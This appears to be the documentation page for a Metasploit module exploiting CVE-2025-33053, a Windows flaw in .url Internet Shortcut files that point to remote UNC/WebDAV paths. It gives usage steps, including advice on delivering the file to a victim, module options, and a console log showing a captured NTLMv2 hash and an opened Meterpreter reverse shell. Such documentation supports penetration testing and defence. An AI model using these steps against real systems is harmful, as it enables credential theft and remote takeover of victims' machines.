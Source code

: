 ## Vulnerable Application

CVE-2025-33053 - Internet Shortcut (.url) UNC Path Exploit

Windows improperly handles `.url` (Internet Shortcut) files referencing remote
UNC paths. Specifically, `.url` files that specify a remote working directory
(`WorkingDirectory=\\attacker\webdav`) and a trusted executable (e.g.,
`iediagcmd.exe`) may cause the system to access the attacker's server when opened.

This behavior can be exploited to:

- Trigger NTLM authentication leaks (SMB relay)
- Load remote payloads via WebDAV shares
- Attempt DLL sideloading if conditions allow

## Affected Versions

- Windows 10 22H2
- Windows 11 23H2
- Fully patched prior to June 2025 Patch Tuesday

## Verification Steps

1. Run: `use windows/fileformat/unc_url_cve_2025_33053`
2. Run: `set LHOST [IP address]`
3. Run: `set SRVHOST [IP address]`
4. Run: `run`
5. Deliver the `.url` to the target (email, USB, zip)
6. On victim's machine, open `.url`
7. Payload execution

### Overview

This module generates a malicious `.url` Internet Shortcut file that abuses
CVE-2025-33053 — a vulnerability in how Windows handles `.url` files referencing remote UNC
paths.

When opened on a vulnerable system, the `.url` causes the system to connect to a
UNC path(e.g., a WebDAV or SMB share), triggering an attempt to execute a trusted binary
from the attacker's location. This can result in RCE or credential leaks.


## Options

### OUTFILE
This option allows user to define their own .url file. If this option is not set, the module will generate random .url file - `YWSXVjpW.url`.

### FOLDER_NAME
The `FOLDER_NAME` option defines SMB share folder, where the final payload file is stored. Generally can be anything, default is `webdav`.

### FILE_NAME
This option defines payload file stored in SMB share. This option should not change as it is bound to executable in `URL` parameter of `.url` file. The default value is `explorer.exe`.


## Scenarios

```
msf exploit(windows/fileformat/unc_url_cve_2025_33053) > run verbose=true 
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

msf exploit(windows/fileformat/unc_url_cve_2025_33053) > [*] Started reverse TCP handler on 192.168.3.7:4444 
[*] URL file: /home/ms/.msf4/local/YWSXVjpW.url, deliver to target's machine and wait for shell
[*] Run following: curl http://192.168.3.7:8080/YWSXVjpW.url -o YWSXVjpW.url
[*] Server is running. Listening on 192.168.3.7:4445
[*] The SMB service has been started.
[*] Received SMB connection from 10.5.132.137
[SMB] NTLMv2-SSP Client     : 10.5.132.137
[SMB] NTLMv2-SSP Username   : WIN10_22H2_7FD2\msfuser
[SMB] NTLMv2-SSP Hash       : msfuser::WIN10_22H2_7FD2:[HASH]

[*] Sending stage (203846 bytes) to 10.5.132.137
[*] Meterpreter session 1 opened (192.168.3.7:4444 -> 10.5.132.137:49740) at 2025-06-24 16:08:56 +0200

msf exploit(windows/fileformat/unc_url_cve_2025_33053) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  WIN10_22H2_7FD2\msfuser @ WIN10_22H2_7FD2  192.168.3.7:4444 -> 10.5.132.137:49740 (10.5.132.137)

msf exploit(windows/fileformat/unc_url_cve_2025_33053) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN10_22H2_7FD2
OS              : Windows 10 22H2+ (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```


## References

- [GitHub PoC](https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept)
- [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2025-33053)
- [LOLBAS Project](https://lolbas-project.github.io)
- [Microsoft Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33053)

